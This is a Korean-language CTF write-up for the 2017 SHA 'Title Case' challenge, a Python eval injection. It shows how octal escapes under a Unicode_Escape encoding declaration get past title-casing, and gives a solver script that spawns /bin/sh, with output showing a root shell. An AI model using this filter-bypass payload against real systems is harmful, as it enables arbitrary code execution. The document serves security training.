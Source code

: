 # [2017_SHA] \[PWN] Title Case

### Problem

```python
#!/usr/bin/env python
eval(raw_input().title())
```

title 함수 때문에 원하는 함수를 호출할 수 없습니다.

가장 첫번째로 생각해낸 것은 `string[1:]` 과 같은 방식이었으나 소문자 출력까진 성공했으나 이용할 방법이 없었습니다.

```python
# Encoding: Unicode_Escape

\160\162\151\156\164\050\047\150\145\154\154\157\047\051
# print('hello')
```

하지만 위와 같이 인코딩 방식을 선언한 후, 8진수를 이용하여 파이썬 소스코드를 실행할 수 있습니다.



### Solution

```python
string = '__import__("os").system("/bin/sh")'
full = ""

for i in range(len(string)):
        full += "\\%03o"%ord(string[i])

print "# Encoding: Unicode_Escape \r"+full
```



```
root@inj3ct:~/labs/ctf/2017_sha/TitleCase# (python ex.py;cat) | python challenge.py 
id
uid=0(root) gid=0(root) groups=0(root)
```

(몇 시간 들여서 8진수로 코드 실행하는 것까지는 갔으나 '\n' 때문에 문제를 못풀고 있었다니…)